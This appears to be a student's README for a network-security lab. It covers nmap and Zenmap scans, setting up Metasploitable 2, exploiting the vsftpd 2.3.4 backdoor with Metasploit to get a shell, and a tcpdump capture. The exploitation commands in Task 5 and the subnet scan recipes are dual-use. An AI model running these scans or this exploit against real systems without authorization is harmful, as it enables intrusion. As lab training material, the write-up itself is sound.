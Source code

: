 
# 🔐 Network Security Lab: Nmap, Zenmap, Metasploit & Tcpdump

This project demonstrates hands-on cybersecurity skills in a virtual lab environment using **Kali Linux**, **Metasploitable 2**, and popular tools for scanning, vulnerability detection, and exploitation.

## 🛠️ Tools & Platforms Used
- VirtualBox (Kali Linux & Metasploitable 2)
- Nmap & Zenmap (GUI)
- Metasploit Framework
- Tcpdump (Packet analysis)

---

## 📚 Tasks & Key Findings

### 🔍 Task 1: Ping and Port Scanning with Nmap
- **Ping Scan**:  
  ```bash
  nmap -sn 192.168.150.128
  ```
  - Detected host with low latency (~0.00060s).
- **Remote Port Scan**:  
  ```bash
  sudo nmap -v -A scanme.nmap.org
  ```
  - Found open ports on `45.33.32.156`:  
    `22/tcp (SSH)`, `53/tcp (DNS)`, `80/tcp (HTTP)`, `9929/tcp`, `31337/tcp`

---

### 🌐 Task 2: Scanning via Zenmap
Performed different scan types on `scanme.nmap.org`:
- **Intense Scan** (includes ping & traceroute)
- **Quick Scan**
- **Regular Scan**
- **Quick Traceroute**

🔎 Key Observations:
- **Open Ports**: `22`, `25`, `80`, `135`, `9929`, `31337`
- **Filtered Ports**: e.g., `25/tcp (SMTP)`
- **Service Details**: e.g., `OpenSSH 6.6.1p1`, `Nping echo`
- Intense scans offer more detailed info; quick scans are faster but limited.

---

### 🖥️ Task 3: Metasploitable 2 Setup
- Downloaded from SourceForge and installed in VirtualBox as the target vulnerable machine.

---

### 🧪 Task 4: Host & Port Discovery
- **Network-wide Ping Sweep**:  
  ```bash
  sudo nmap -sn 192.168.150.0/24
  ```
- **Identified Target IP**: `192.168.150.131`
- **Version Detection**:
  ```bash
  sudo nmap -sV 192.168.150.131
  ```
  - Discovered open services (e.g., FTP, HTTP, SSH, Telnet)

---

### 💥 Task 5: Exploiting a Vulnerable Service
- **Targeted FTP Service**: `vsftpd 2.3.4` (port 21)
- Used Metasploit Framework:
  ```bash
  sudo msfconsole
  use exploit/unix/ftp/vsftpd_234_backdoor
  set RHOST 192.168.150.131
  run
  ```
- Gained shell access & accessed:
  ```bash
  cat secret.txt
  ```

---

### 📘 Task 6: Key Concepts & Understanding

- **Ping**: Used in host discovery (e.g., `nmap -sn`) to measure latency.
- **Network Ports**: Logical endpoints used by protocols like TCP/UDP.
- **Vulnerable Services**: Services like outdated FTP that attackers can exploit.
- **Defense Strategy**: Restrict services/ports to business-necessary access only.

---

### 📡 Task 7: Packet Capture with Tcpdump
- Command:
  ```bash
  sudo tcpdump
  ```
- Captured real-time network traffic.
- Observed UDP packets and found no dropped packets—indicating stable networking.

---

## 🎯 Learning Outcome
- Performed real-world scanning and reconnaissance.
- Discovered and exploited vulnerabilities in a controlled setup.
- Gained practical knowledge of defensive and offensive network security techniques.
- Practiced traffic monitoring with tcpdump.

---

